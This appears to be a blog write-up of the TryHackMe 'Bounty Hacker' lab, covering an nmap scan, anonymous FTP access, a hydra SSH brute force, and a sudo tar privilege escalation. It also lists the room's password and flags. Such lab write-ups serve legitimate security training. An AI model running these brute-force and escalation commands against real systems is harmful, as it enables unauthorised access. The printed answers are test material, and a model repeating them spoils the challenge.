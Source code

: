 ```yaml
---
layout: post
title: Bounty Hacker
date: 2023-01-02 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Bounty Hacker] is an easy CTF on TryHackMe that focus on wordlist attack and sudo privilege escalation.

![Bounty Hacker](/images/THM/bountyhacker/logo.jpeg)


---

Let's start scanning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![scan](/images/THM/bountyhacker/Captura.PNG)

Like we can see in the scan, it returns, 3 open ports. We're going to connect to ftp.

```sh
ftp <IP>
```

![ftp](/images/THM/bountyhacker/Captura2.PNG)

We can log in with the anonymous user and If we list the files inner the directory we see 2 files, locks.txt and task.txt.

```sh
cat locks.txt
```

![locks](/images/THM/bountyhacker/Captura3.PNG)

When locks.txt is show up, we see a list. Lets going to think that is a password list.

```sh
cat task.txt
```

![task](/images/THM/bountyhacker/Captura4.PNG)

The other file, when it is shown, we see in the final part the signature of lin.

- Who wrote the task list?
>Answer: lin

With the above information, let's try to do a wordlist attack with [hydra].

```sh
hydra -l lin -P locks.txt <IP> ssh
```

![hydra](/images/THM/bountyhacker/Captura5.PNG)

- What service can you bruteforce with the text file found?
>Answer: ssh

- What is the users password?
>Answer: RedDr4gonSynd1cat3

How we got the credentials, let's connect to the machine.

```sh
ssh lin@<IP>
```

![ssh](/images/THM/bountyhacker/Captura6.PNG)

If we list the files, we can see the user.txt containing the flag.

```sh
ls
cat user.txt
```

![user flag](/images/THM/bountyhacker/Captura7.PNG)

- user.txt
>Answer: THM{CR1M3_SyNd1C4T3}

Now is the time to elevate our privileges so, we try with **sudo -l** to see if we can do something.
With the information returned, we can do the elevation with tar. If we don't know how to do It, we can go to [GTFOBins].

```sh
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=<shell>
```

![sudo](/images/THM/bountyhacker/Captura8.PNG)

Now that we are root, we can go to the /root directory and see the root flag.
And with that we finish this machine.

```sh
cd /root
ls
cat root.txt
```

![root flag](/images/THM/bountyhacker/Captura9.PNG)

- root.txt
>Answer: THM{80UN7Y_h4cK3r}


[Bounty Hacker]: https://tryhackme.com/room/cowboyhacker
[GTFOBins]:https://gtfobins.github.io/
[hydra]:https://github.com/vanhauser-thc/thc-hydra
